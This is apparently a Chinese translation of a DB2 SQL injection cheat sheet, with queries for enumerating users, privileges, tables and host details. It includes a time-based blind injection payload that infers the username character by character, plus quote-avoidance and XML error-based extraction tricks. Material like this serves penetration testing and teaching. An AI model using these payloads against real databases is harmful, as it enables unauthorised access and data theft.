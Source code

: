 # DB2 注入

> 

## 摘要

* [DB2 备忘单](#db2-cheatsheet)
* [参考资料](#references) 

## DB2 备忘单

### 版本

```sql
select versionnumber, version_timestamp from sysibm.sysversions;
select service_level from table(sysproc.env_get_inst_info()) as instanceinfo
select getvariable('sysibm.version') from sysibm.sysdummy1 -- (v8+)
select prod_release,installed_prod_fullname from table(sysproc.env_get_prod_info()) as productinfo
select service_level,bld_level from sysibmadm.env_inst_info
```

### 评论	

```sql
select blah from foo -- 像这样添加注释（双破折号）
```

### 当前用户

```sql
select user from sysibm.sysdummy1
select session_user from sysibm.sysdummy1
select system_user from sysibm.sysdummy1
```

### 列出用户

DB2 使用操作系统账户

```sql
select distinct(authid) from sysibmadm.privileges -- 需要权限
select grantee from syscat.dbauth -- 结果不完整
select distinct(definer) from syscat.schemata -- 更准确
select distinct(grantee) from sysibm.systabauth -- 与前一个相同
```

### 列出权限

```sql
select * from syscat.tabauth -- 显示表的权限
select * from syscat.tabauth where grantee = current user -- 显示当前用户的权限
select * from syscat.dbauth where grantee = current user;;
select * from SYSIBM.SYSUSERAUTH — 列出 db2 系统权限
```

### 列出 DBA 账户	

```sql
select distinct(grantee) from sysibm.systabauth where CONTROLAUTH='Y'
select name from SYSIBM.SYSUSERAUTH where SYSADMAUTH = ‘Y’ or SYSADMAUTH = ‘G’
```

### 当前数据库	

```sql
select current server from sysibm.sysdummy1
```

### 列出数据库

```sql
select distinct(table_catalog) from sysibm.tables
SELECT schemaname FROM syscat.schemata;
```

### 列出列

```sql
select name, tbname, coltype from sysibm.syscolumns -- 也适用于 syscat 和 sysstat
```

### 列出表

```sql
select table_name from sysibm.tables
select name from sysibm.systables
```

### 根据列名查找表	

```sql
select tbname from sysibm.syscolumns where name='username'
```

### 选择第 N 行

```sql
select name from (select * from sysibm.systables order by name asc fetch first N rows only) order by name desc fetch first row only
```

### 选择第 N 个字符	

```sql
select substr('abc',2,1) FROM sysibm.sysdummy1 -- 返回 b
```

### 位运算 AND/OR/NOT/XOR

```sql
select bitand(1,0) from sysibm.sysdummy1 -- 返回 0。还有 bitandnot, bitor, bitxor, bitnot 可用
```

### ASCII 值

```sql
字符	select chr(65) from sysibm.sysdummy1 -- 返回 'A'
```

### 字符 -> ASCII 值	

```sql
select ascii('A') from sysibm.sysdummy1 -- 返回 65
```

### 类型转换

```sql
select cast('123' as integer) from sysibm.sysdummy1
select cast(1 as char) from sysibm.sysdummy1
```

### 字符串连接

```sql
select 'a' concat 'b' concat 'c' from sysibm.sysdummy1 -- 返回 'abc'
select 'a' || 'b' from sysibm.sysdummy1 -- 返回 'ab'
```

### IF 语句

似乎只在存储过程中允许使用。改用案例逻辑。

### 案例语句

```sql
select CASE WHEN (1=1) THEN 'AAAAAAAAAA' ELSE 'BBBBBBBBBB' END from sysibm.sysdummy1
```

### 避免使用引号

```sql
SELECT chr(65)||chr(68)||chr(82)||chr(73) FROM sysibm.sysdummy1 -- 返回 “ADRI”。不使用 select 也可以工作
```

### 时间延迟

例如：如果用户以 ascii 68 ('D') 开头，将执行重查询，延迟响应。
但是，如果用户不是以 ascii 68 开头，重查询将不会执行，因此响应会更快。

```sql
' and (SELECT count(*) from sysibm.columns t1, sysibm.columns t2, sysibm.columns t3)>0 and (select ascii(substr(user,1,1)) from sysibm.sysdummy1)=68 
```

### 序列化为 XML（用于基于错误的攻击）

```sql
select xmlagg(xmlrow(table_schema)) from sysibm.tables -- 将所有内容以一个 xml 格式的字符串返回
select xmlagg(xmlrow(table_schema)) from (select distinct(table_schema) from sysibm.tables) -- 同样，但没有重复元素
select xml2clob(xmelement(name t, table_schema)) from sysibm.tables -- 将所有内容以一个 xml 格式的字符串返回（v8）。可能需要 CAST(xml2clob(… AS varchar(500)) 来显示结果。
```

### 命令执行和本地文件访问

似乎只能从过程或 UDFs 进行。

### 主机名/IP 和操作系统信息

```sql
select os_name,os_version,os_release,host_name from sysibmadm.env_sys_info -- 需要权限
```

### 数据库文件位置

```sql
select * from sysibmadm.reg_variables where reg_var_name='DB2PATH' -- 需要权限
```

### 系统配置

```sql
select dbpartitionnum, name, value from sysibmadm.dbcfg where name like 'auto_%' -- 需要权限。检索存储在内存中的所有数据库分区的数据库配置中的自动维护设置。
select name, deferred_value, dbpartitionnum from sysibmadm.dbcfg -- 需要权限。检索存储在磁盘上的所有数据库分区的数据库配置参数值。
```

### 默认系统数据库

* SYSIBM
* SYSCAT
* SYSSTAT
* SYSPUBLIC
* SYSIBMADM
* SYSTOOLs


## 参考资料

* [DB2 SQL 注入备忘单 - Adrián - 20/05/2012](https://securityetalii.es/2012/05/20/db2-sql-injection-cheat-sheet/)
* [DB2 SQL 注入备忘单 - pentestmonkey](http://pentestmonkey.net/cheat-sheet/sql-injection/db2-sql-injection-cheat-sheet)